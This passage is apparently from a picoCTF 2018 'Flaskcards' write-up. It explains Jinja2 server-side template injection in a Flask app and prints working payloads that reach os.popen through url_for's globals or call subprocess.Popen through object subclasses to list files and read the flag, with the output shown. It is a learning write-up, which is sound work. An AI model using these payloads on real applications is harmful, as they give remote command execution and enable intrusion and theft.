 [Another](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/Flaskcards.md) way to do this is to access the `builtins` and get to `os` and `open` from there. `Dvd848` picks a particular class and is able to initialize it with no arguments and then get the `__globals__` attribute via `_method.__globals__`. I did not have much luck with that, pretty much for the same reason: the server environment has changed since that write-up and the author may have chosen a really specific class.

I did have better luck with the following:

`url_for.__globals__['os'].popen("cat flag").read()`

`url_for` is a Flask function that has access to a set of globals that are mostly functions. The approach is referenced by [these](https://www.youtube.com/watch?v=_GjEn382qLE) [two](https://ctftime.org/writeup/11754) write-ups.

My original question during the competition had involved how to redirect the output from `subprocess.Popen` back into the Flask application instead of to the terminal that gets opened. Knowing how to do that would have avoided the need for me to run a command to listen on a port, pipe the input into `bash` and then pipe the output from `bash` back out to a remote location. [This write-up](https://qiita.com/mayoneko/items/1d2d230d4246fde9d0bc) gave me the answer I wanted: in calling `Popen`, I can specify `stdout = -1`, which sends the output from the shell command back into whatever pipe called `Popen` in the first place. In this case, that's the Flaskcard application. Taking my original exploit, I can now modify it as follows:

`{{''.__class__.mro()[1].__subclasses__()[206]('ls -lah', stdout=-1, shell=True).stdout.readlines()}}`

gives me an output of

```
[b'total 72K\n', b'drwxr-x--- 3 hacksports flaskcards-and-freedom_0 4.0K Mar 25 19:15 .\n', b'drwxr-x--x 556 root root 52K Mar 25 19:58 ..\n', b'drwxr-xr-x 3 root root 4.0K Mar 25 19:15 app\n', b'-rw-rw-r-- 1 hacksports hacksports 38 Mar 25 19:15 flag\n', b'-rw-rw-r-- 1 hacksports hacksports 61 Mar 25 19:15 server.py\n', b'-rwxr-sr-x 1 hacksports flaskcards-and-freedom_0 105 Mar 25 19:15 xinet_startup.sh\n']
```

Then I can send

`{{''.__class__.mro()[1].__subclasses__()[206]('cat flag', stdout=-1, shell=True).stdout.readlines()}}`,

which gives me the flag yet another way:

`b'picoCTF{R_C_E_wont_let_me_be_33c4aa61}']`.

To recap, after reviewing the ten write-ups for this problem on CTF Time I've gotten the flag four different ways now: first, by calling `subprocess.Popen()` as a subclass of `object`, getting a shell, listening on a port, piping the input into `bash`, and then piping the output to a remote server. Second, by calling `subprocess.Popen()` and redirecting the output from the shell command back into the Flaskcard application. Third, by finding an object of type `file` (actually `LazyFile`) in the object hierarchy, calling its `open` method, guessing the name of the flag file, and calling `read()`. And fourth, by using the `url_for` method, getting to `__globals__` from there, and accessing the `popen` method of the `os` module. This was a great problem as it taught me quite a bit about the Python object hierarchy, Jinja2 templating, and redirecting `bash` output to a remote server once I get a shell. In this case, I learned even more by writing it up than I did by solving the problem to begin with.

### For further study

[Here's](https://0day.work/jinja2-template-injection-filter-bypasses/) a blog post on Jinja2 template injection filter bypassing.
